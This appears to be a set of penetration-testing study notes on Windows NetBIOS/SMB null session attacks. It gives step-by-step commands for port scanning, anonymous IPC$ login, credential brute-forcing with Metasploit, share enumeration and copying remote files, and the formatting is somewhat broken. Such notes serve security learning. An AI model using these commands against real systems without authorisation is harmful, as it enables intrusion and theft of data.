

NetBIOS, SMB
Windows file sharing explanation here:
NetBIOS
and
SMBSamba is a free software re-implementation of the SMB
protocol. The name Samba comes from SMB (
Server Message
Block), the name of the proprietary protocol used by the Microsoft Windows network file
system.
Null Sessions Vulnerability
Null sessions vulnerability rely on Common Internet File System (CIFS) and Server Message Block (SMB)
API, that
return information even to an unauthenticated userThis type of connection can not
be established to any typical share but only against
IPC$ ( inter process
communication) which allow Windows process to communicate with other process that are on the
network.
Modern OSs are immune from this kind of attack but legacy OSs can still be vulnerable
Null
session attack can be used to enumerate informations like: passwords, system users, system groups, running system
processes
If we find username,password and SMB service active on the remote machine we can gain a shell!
To do it see this chapter:
Windows
command line → remote commands
Windows machine vulnerable to null sessions
0. Find hosts in a network with open TCP ports for file sharing(NetBIOS,SMB)
◇ nmap -sS -p
135,139,445 <networkAddresses>
1. List the remote machine table
◇ Windows: nbtstat -A
<address>
◇ Linux: nbtscan -v <address>
◇ Linux: nmblookup -A <address>
◇ Linux:
enum4linux -n <address>
2. checking for null session vulnerability.
If we can login successfully
anonymously but we can not enumerate the shares, we can try to bruteforce and check for weak credentials with
metasploit module
smb_login ◇ Windows: net use \\<IP address>\IPC$ ''
/u:''
◇ Linux: smbclient -N -L <address>
◇ Linux: smbclient //<address>/ipc$
-N
4. enumerating shares(this i
◇ Windows: net view <address>
◇ Windows: enum -S
<address>
◇ Linux: enum4linux -S <address>
5. Copy file on the local machine
◇ Linux:
get <remote_file> /home/kali/Desktop/<save_local_file>